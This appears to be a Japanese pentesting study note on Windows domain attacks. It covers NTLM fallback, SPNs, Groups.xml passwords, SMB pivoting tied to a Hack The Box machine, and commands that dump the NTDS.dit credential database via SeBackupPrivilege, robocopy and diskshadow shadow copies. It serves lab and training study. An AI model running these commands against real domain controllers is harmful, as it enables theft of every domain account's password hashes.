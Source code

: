 ### windows認証プロトコル

主にNet-NTLMv1/v2かKerberosで認証情報を確認する  

#### Net-NTLMv1/v2
脆弱であり、Microsoftも使用しないように注意喚起をしていて、windows2000以降のドメイン環境ではkerborosとなっているが、  
**なんらかの理由でkerberosプロトコルがネゴシエートされない場合は、Net-NTLMv1/v2が使用される仕組みになっている。**  



### PrincipalとSPN
Principalとは、kerberosを使用して認証できるユーザーやサービス固有の名前を指す。
**ユーザーの場合は、UPNで、サーバーの場合は、SPN**



### Groups.xml
windows2012より前のローカル管理者を追い出したい場合に、ローカルアカウント情報が保存されるグループポリシーファイルで、  
グループポリシーで実行されているアカウントごとのランダムなパスワードなどが含まれている  
   
### pivotingについて
まずは、pivotingはsmb,winrmについての区別をつけること   
hack the box - blackfield   

例:   
smbmapでユーザーリストを列挙→弱いユーザーアカウントを狙って侵害する   
→侵害したユーザーからsmbmapスキャンで最初のsmbmapで発見できなかったアカウントを見つけての繰り返し   

### SeBackupPrivilege を使用した NTDS.dit ハッシュのダンプ

robocopy
```
robocopy /b C:\Windows\NTDS C:\Profiles NTDS.dit
```

robocopyを使用して ntds.dit ファイルのコピーを作成するのが一番ベストではあるが、  
何らかの理由でrobocopyが使用できない場合は以下のテクを使う  


diskshadow.exe に C: のコピーを作成し、それに Z: という名前を付けて公開する (ドライブとしてアクセスできるようにする)   

```
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

diskshadow.txt ファイルを作成した後、次のコマンドを使用してシャドウ コピーを作成し、Z:\ ドライブとして表示できるようにする  

```
diskshadow.exe /s c:\temp\diskshadow.txt
```

最後にZドライブに移動してrobocopyでコピーする
```
robocopy /b .\ C:\temp NTDS.dit
```
